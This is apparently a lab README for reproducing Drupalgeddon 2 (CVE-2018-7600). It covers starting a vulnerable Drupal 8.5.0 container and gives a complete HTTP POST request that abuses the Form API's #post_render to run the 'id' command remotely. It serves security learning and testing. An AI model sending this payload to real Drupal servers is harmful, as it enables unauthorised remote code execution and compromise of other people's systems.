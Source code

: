 # Drupal Drupalgeddon 2 Remote Code Execution (CVE-2018-7600)

[中文版本(Chinese version)](README.zh-cn.md)

Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations including the Form API.

References:

- <https://www.drupal.org/sa-core-2018-002>
- <https://research.checkpoint.com/uncovering-drupalgeddon-2/>

## Vulnerable environment

Run the following command to start a vulnerable Drupal 8.5.0 environment:

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080/` and you will see the drupal installation page. Complete the drupal installation using the "standard" profile. Because there is no mysql environment, you should select sqlite database when installing. Once the installation is complete you are ready to start exploiting it.

## Exploit

Referring to [a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py), we can send the following request to drupal:

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

Upon successful execution of the code, the id command is executed:

![](1.png)
